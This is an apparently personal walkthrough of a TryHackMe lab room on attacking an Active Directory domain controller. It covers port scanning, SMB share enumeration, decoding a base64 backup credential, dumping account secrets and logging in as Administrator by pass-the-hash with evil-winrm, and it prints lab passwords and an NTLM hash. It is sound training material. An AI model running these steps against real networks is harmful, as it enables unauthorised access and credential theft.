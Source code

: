 ```
URL : https://tryhackme.com/room/attacktivedirectory
Description: 99% of Corporate networks run off of AD. But can you exploit a vulnerable Domain Controller?
ip : 10.10.15.181
```


So this is about Active directory which i have little experience with. I've done some rooms but nothing really "stuck" with me, so ill have to start from scratch:

Lets start with a nmap scan on the 1000 most known ports:

| Port | State | Service | Version |
|------|-------|---------|---------|
| 135/tcp | open | msrpc | Microsoft Windows RPC  |
| 139/tcp | open | netbios-ssn | Microsoft Windows netbios-ssn  |
| 3268/tcp | open | ldap | Microsoft Windows Active Directory LDAP  |
| 3269/tcp | open | tcpwrapped |   |
| 3389/tcp | open | ms-wbt-server | Microsoft Terminal Services  |
| 389/tcp | open | ldap | Microsoft Windows Active Directory LDAP  |
| 445/tcp | open | microsoft-ds |   |
| 464/tcp | open | kpasswd5 |   |
| 53/tcp | open | domain | Simple DNS Plus  |
| 593/tcp | open | ncacn_http | Microsoft Windows RPC over HTTP 1.0 |
| 636/tcp | open | tcpwrapped |   |
| 80/tcp | open | http | Microsoft IIS httpd 10.0 |
| 88/tcp | open | kerberos-sec | Microsoft Windows Kerberos  |2


We see a lot of open ports here, lets see what is happening on port 80 in a browser. This just shows a basic introduction screen to Windows server.

Since Kerboros works mostly only with Domains, we add the machine IP to the given .

``sudo echo "<ip> spookysec.local" >> /etc/hosts``

This registers the domain name for that ip and we can proceed.

For this assignment, the user/password lists were adjusted 4

user: svc-admin
password: management2005

Now that we have a user and his credentials, we can scan for SMB mounts we can check for usefull files/explotable entrances.
We use `smbclient` to enumerate samba shares and see whatsup


```
smbclient -L 10.10.166.85 --user=svc-admin%management2005 | tee smbclient_enum.txt

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backup          Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share
	SYSVOL          Disk      Logon server share
SMB1 disabled -- no workgroup available

```
the "backup" mount jumps out as something that might have useful information, lets connect to it:

``smbclient //10.10.166.85/backup --user=svc-admin%management2005``

Here we find a `backup_credentials.txt` file with some sort of encrypted string.

```
─$ echo "YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw"
| base64 -d

backup@spookysec.local:backup2517860       
```

On a whim we will base64 decode it see if it resolves with any usefull information, and there! we have found more account credentials which most likely escalate our permissions!

Now the Walkthrough tells us to use this Backup information to "dumpSecrets" with this backup account. lets try it.

From this we get a giant list of dumped Credentials, we can use these credentials to log-in with the Master account `Administrator` by using a technique called "pass the hash". This allows us to use the hash as credentials to login with the Administrator account.

For this we use software called Evil Win-Rm, and we pass the hash we found from this line to it.

`Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::`

`sudo evil-winrm _2.3_ -i 10.10.145.103 -u Administrator -H 0e0363213e37b94221497260b0bcb4fc`

*NOTE*
  This does not work from my Kali-vm for some reason, and i cannot figure out why. I've tried to downgrade the evil-winrm to version 2.3 which i found somewhere in a writeup and some other things, but i could not get it to work :(

  What i did instead is use the TryHackMe provided Attack-box and it worked like a charm with the exact same command. Probably some VPN thing.

In the end, this gave us a PowerShell as Administrator and allowed us to fill in the 3 flags that were required by simply navigating to `Users\svc-admin Users\backup and Users\Administrator\Desktop`.

Conclusion:

I've learned alot from this room as i have used some of the tools before and my knowledge of Windows Active directory is still very limited. But This was a fun and challenging task, especially because the Evil-winrm didnt want to work on my local machine :).
